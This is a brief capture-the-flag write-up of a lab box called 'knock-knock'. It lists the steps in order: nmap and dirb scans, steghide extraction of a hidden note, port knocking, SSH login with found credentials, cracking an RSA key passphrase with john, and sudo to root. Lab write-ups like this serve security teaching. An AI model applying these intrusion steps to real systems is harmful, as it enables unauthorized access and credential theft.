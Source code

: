# knock-knock
knock-knock writeup

We start with a nmap scan:

`nmap -Pn -A $IP`

Just one open port : 80

More enumeration:

`dirb http://$IP`

We find 2 directory : $IP/images/upload/

After a look in source-code whe find a picture who not appears on the site.

Download the jpg with a wget command.

`steghide info picture.jpg`

Without password we find a .txt embed inside

`steghide extract -sf picture.jpg`

`Hey Woody. 

Great idea to hide access to the server but don't be too confident and change
 your bad password. And change the default configuration sequence ASAP please.
Thanks`


Install knockd, take a look at knockd.conf

`knock $IP 7000:tcp, 8000:tcp, 9000:tcp`

Another nmap scan and we find a ssh on port 22.

Log in with woody:woodpecker credentials.

we find a note.txt who give us some, hint for billy's passphrase.

Found a rsa key encode in base64 in billy's home folder.

`ssh2john id_rsa > hash`
`cat /usr/share/wordlists/rockyou.txt | grep **** > pass.txt`
`john --wordlist=pass.txt hash`

We find the password and log to billy's account with the rsa key

Sudo with the same password and we are root!!!
